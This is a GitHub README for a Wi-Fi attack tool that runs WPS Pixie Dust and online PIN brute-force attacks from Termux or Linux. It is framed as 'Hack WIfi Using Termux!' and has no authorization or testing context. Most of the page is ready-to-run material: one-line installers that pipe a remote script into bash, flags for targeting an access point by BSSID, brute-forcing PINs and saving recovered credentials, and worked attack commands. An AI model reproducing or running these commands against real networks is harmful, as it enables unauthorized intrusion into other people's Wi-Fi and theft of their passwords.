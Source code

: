 [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)


### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://c.top4top.io/p_2834agjxx0.png"></p>

# Overview
**FARHAN-Shot2** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).

Please note that root access is required.  

### Installation one line:

```bash
apt update && apt upgrade && pkg install tsu && pkg install python && pkg install git && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage && curl -sSf https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2_Termux_installer/master/installer.sh | bash && git clone --depth 1 https://github.com/gtajisan/FARHAN-Shot2 FARHAN-Shot2 && sudo python FARHAN-Shot2/FARHAN-Shot2.py -i wlan0 --iface-down -K
```

#### Using installer
 ```
 curl -sSf https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2_Termux_installer/master/installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
pkg update
pkg upgrade
pkg install tsu
pkg install python
pkg install git
pkg install root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
termux-setup-storage
 ```
**Getting FARHAN-Shot2**
 ```
 git clone --depth 1 https://github.com/gtajisan/FARHAN-Shot2 FARHAN-Shot2
 ```
#### Running
 ```
 sudo python FARHAN-Shot2/FARHAN-Shot2.py -i wlan0 --iface-down -K
 ```


# Setup
## Debian/Ubuntu
**Installing requirements**
 ```
 sudo apt install -y python3 wpasupplicant iw wget
 ```
**Installing Pixiewps**

***Ubuntu 18.04 and above or Debian 10 and above***
 ```
 sudo apt install -y pixiewps
 ```
 
***Other versions***
 ```
 sudo apt install -y build-essential unzip
 wget https://github.com/wiire-a/pixiewps/archive/master.zip && unzip master.zip
 cd pixiewps*/
 make
 sudo make install
 ```
**Getting FARHAN-Shot2**
 ```
 cd ~
 wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/FARHAN-Shot2.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/vulnwsc.txt
 ```
## Arch Linux
**Installing requirements**
 ```
 sudo pacman -S wpa_supplicant pixiewps wget python
 ```
**Getting FARHAN-Shot2**
 ```
 wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/FARHAN-Shot2.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/vulnwsc.txt
 ```
## Alpine Linux
It can also be used to run on Android devices using [Linux Deploy](https://play.google.com/store/apps/details?id=ru.meefik.linuxdeploy)

**Installing requirements**  
Adding the testing repository:
 ```
 sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'
 ```
 ```
 sudo apk add python3 wpa_supplicant pixiewps iw
 ```
 **Getting FARHAN-Shot2**
 ```
 sudo wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/FARHAN-Shot2.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 sudo wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/vulnwsc.txt
 ```
## [Termux](https://termux.com/)


# Usage
```
 FARHAN-Shot2.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 FARHAN-Shot2.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 FARHAN-Shot2.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 FARHAN-Shot2.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 FARHAN-Shot2.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running FARHAN-Shot2 with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running FARHAN-Shot2 with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.
